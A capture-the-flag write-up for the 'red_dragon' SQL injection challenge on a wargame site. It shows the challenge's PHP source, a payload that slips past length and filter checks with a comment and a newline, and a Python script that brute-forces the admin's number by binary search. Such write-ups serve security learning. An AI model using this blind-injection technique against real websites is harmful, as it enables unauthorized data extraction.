 # red_dragon

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```
Here we have to get the admins `no` but id can have only 7 characters and no can only have numbers. So we commented from id and put a newline `%0a` on the no part to escape that and used a binary search algorithm to find the number. 

```python
import requests

session = requests.Session()
cookies = {"PHPSESSID": "5s5vfpd5jpkhskvvl1f1t1nk6m"}


url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no>%23&no=%0A"
mini = 100000000
maxi = 1000000000
while(maxi > mini):
    mid = int((maxi+mini)//2)
    r = requests.get(url+str(mid), cookies=cookies)
    if('Hello admin' in r.text[:150]):
        print("no>"+str(mid))
        if(maxi-mini > 1):
            mini = mid
        else:
            maxi = mini
    else:
        print("no<"+str(mid))
        maxi = mid
print(mid)
```

This will give the number